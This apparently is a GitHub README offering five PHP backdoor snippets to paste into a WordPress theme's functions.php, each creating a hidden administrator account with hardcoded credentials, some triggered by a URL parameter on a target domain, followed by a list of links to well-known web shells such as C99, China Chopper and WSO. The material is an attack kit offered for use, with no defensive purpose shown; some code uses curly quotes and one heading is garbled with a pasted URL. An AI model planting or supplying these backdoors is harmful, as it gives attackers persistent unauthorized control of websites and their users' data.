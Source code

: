 ![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/link-in-bio-backdoor-and-web.png?raw=true)

## Backdoor-01 (add to theme functions.php)






```bash

function wpb_admin_account(){
$user = ‘minhaz’;
$pass = ‘pass’;
$email = ’email@email.em’;
if ( !username_exists( $user ) && !email_exists( $email ) ) {
$user_id = wp_create_user( $user, $pass, $email );
$user = new WP_User( $user_id );
$user->set_role( ‘administrator’ );
}
}
add_action(‘init’,’wpb_admin_account’);
```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_1.png?raw=true)
## Backdoor-02 (add to theme functions.php)






```bash

<?php
add_action(‘wp_head’, ‘WordPress_backdoor’);
function WordPress_backdoor() {
If ($_GET[‘backdoor’] == ‘go’) {
require(‘wp-includes/registration.php’);
If (!username_exists(‘backdooradmin’)) {
$user_id = wp_create_user(‘backdooradmin’, ‘Pa55W0rd’);
$user = new WP_User($user_id);
$user->set_role(‘administrator’);
}
}
}
?>

```
https://www.targetdomain.com?backdoor=go
- User: backdooradmin
 - Password: Pa55W0rd




## Backdoor-03 (add to theme functions.php)






```bash

add_action( 'wp_head', 'my_backdoor' );

function my_backdoor() {
    if ( md5( $_GET['backdoor'] ) == '34d1f91fb2e514b8576fab1a75a89a6b' ) {
        require( 'wp-includes/registration.php' );
        if ( !username_exists( 'cyber_insect99' ) ) {
            $user_id = wp_create_user( 'cyber_insect99', 'pass' );
            $user = new WP_User( $user_id );
            $user->set_role( 'administrator' ); 
        }
    }
}


```
https://www.targetdomain.com?backdoor=go
- User: cyber_insect99
 - Password: pass

## Backdoor-04 (add to theme functions.php)



```bash

$new_user = new Wp_User(wp_create_user('user','password'));
$new_user->set_role('administrator');




```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/backdoor%20on%20wp%20site.png?raw=true)
### Then go to 'users' option on wordpress deshboard the you will see  a new user .
- User: user
 - Password: password


   ## Backdoor-05 (add to theme functions.php  // undelete able user )



```bash

 $username = 'wpuser';
                  $password = '1234567890@';
    
                  $email_address = 'wordpress@example.com';

                  if (! username_exists($username ) ) { $user_id = wp_create_user( $username, $password, $email_address ); 
                  $user = new WP_User( $user_id); $user->set_role( 'administrator' );
                  }

```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/backdoor%205%20on%20wp%20site.png?raw=true)
### Thttps://github.com/cyber-insect99/photo-gallery-/blob/main/backdoor%205%20on%20wp%20site.png?raw=truehen go to 'users' option on wordpress deshboard the you will see  a new user .
- User: user
 - Password: password



# Web Shell
# 
![Logo](https://github.com/jco666/alfa-shell/raw/master/readme_1.png)
 - [Alpha Web Shell ](https://github.com/nicolauns/alfa-shell )
 - [ASPXSpy Web Shell:](https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - [C99 Backdoor Web Shell](https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell)
 - [China Chopper Shell](https://github.com/tennc/webshell/tree/master/caidao-shell)
 - [ IndoXploit Shell (IDX Shell) ](https://github.com/linuxsec/indoxploit-shell)
 - [WSO Web Shell](https://github.com/tennc/webshell/tree/master/php/wso)
  - [B374k PHP Shell](https://github.com/b374k/b374k)
   - [r57 Shell](https://github.com/tennc/webshell/tree/master/138shell/R)
